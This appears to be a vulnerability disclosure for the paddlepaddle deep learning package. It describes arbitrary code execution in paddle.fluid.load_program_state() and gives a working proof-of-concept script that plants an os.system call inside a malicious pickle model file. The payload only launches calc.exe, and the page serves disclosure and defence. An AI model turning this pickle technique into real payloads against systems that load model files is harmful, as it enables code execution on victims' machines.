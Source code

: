 ## :writing_hand: Description

`paddlepaddle` is an industrial platform with advanced technologies and rich features that cover core deep learning frameworks, basic model libraries, end-to-end development kits, tools & components as well as service platforms. This package is vulnerable to `Arbitrary Code Execution`.

## :bug: Vulnerability

`paddle.fluid.load_program_state()` function is used to load program state from local file. It should only unpickle files that are saved with `paddle.fluid.save()` function.

## :male_detective: Proof of Concept

#### Installation
```bash
pip install paddlepaddle
```

#### Run exploit.py
```python
#!/usr/bin/env python3

import pickle
import os
import paddle

class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('calc.exe', ))

payload = pickle.dumps(EvilPickle())

with open('payload.pdparams', 'wb') as file:
    file.write(payload)

paddle.fluid.load_program_state('payload')
```
